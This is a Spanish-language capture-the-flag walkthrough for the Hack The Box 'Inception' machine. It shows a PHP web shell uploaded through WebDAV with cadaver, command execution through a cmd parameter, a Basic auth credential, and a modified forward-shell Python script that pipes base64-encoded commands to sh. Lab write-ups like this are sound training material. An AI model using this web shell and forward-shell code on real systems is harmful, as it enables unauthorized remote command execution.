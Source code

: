 Como vemos tenemos un webdav podemos intentar usar la herramienta `cadaver` para subir archivos atraves del `webdav`
```bash
cadaver http://10.10.10.67/webdav_test_inception/
Nombre de usuario: webdav_tester
Contraseña: 

dav:/webdav_test_inception/> ls
Listando colección `/webdav_test_inception/': exitoso.
        webdav.passwd                         52  nov  8  2017

dav:/webdav_test_inception/> put webshell.php
Transferiendo webshell.php a '/webdav_test_inception/webshell.php':
 Progreso: [                              ]   0,0% of 36 bytes Progreso: [=============================>] 100,0% of 36 bytes exitoso.
```

Nos subimos el siguiente script en `webshell.php`
```bash
# cat webshell.php                                                                                                                                                              
<?php
        system($_REQUEST['cmd']);
?>
```

Nos autenticamos al webdav por http y procedemos a apuntar al script webshell.php almacenado en el webdav
```bash
http://10.10.10.67/webdav_test_inception/webshell.php?cmd=whoami
www-data
```

Procedemos a intentar ganar acceso a la maquina desde nuestra webshell, pero vemos que por IPTABLES estan todas las conexiones interceptadas para que no se pueda.
Asique hacemos uso del concepto Over-HTTP-TTY de s4vitar para jugar con mkfifo
```bash
https://github.com/s4vitar/ttyoverhttp
```
Nos descargamos el repositorio y realizamos una modificacion fijandonos en que tenemos una Cookie de Seesion
```bash
Authorization: Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5
```
Modificamos lo siguiente para proporcionar atraves de la cabecera `headers` la `coockie` 
```python
def RunCmd(cmd):
        cmd = cmd.encode('utf-8')
        cmd = b64encode(cmd).decode('utf-8')
        payload = {
                'cmd' : 'echo "%s" | base64 -d | sh' %(cmd)
                }

        headers = {
                'Authorization': 'Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5'
                }

        result = (requests.get('http://10.10.10.67/webdav_test_inception/webshell.php', params=payload, headers=headers, timeout=5).text).strip()
        return result

def WriteCmd(cmd):
        cmd = cmd.encode('utf-8')
        cmd = b64encode(cmd).decode('utf-8')
        payload = {
                'cmd' : 'echo "%s" | base64 -d > %s' % (cmd, stdin)
        }
```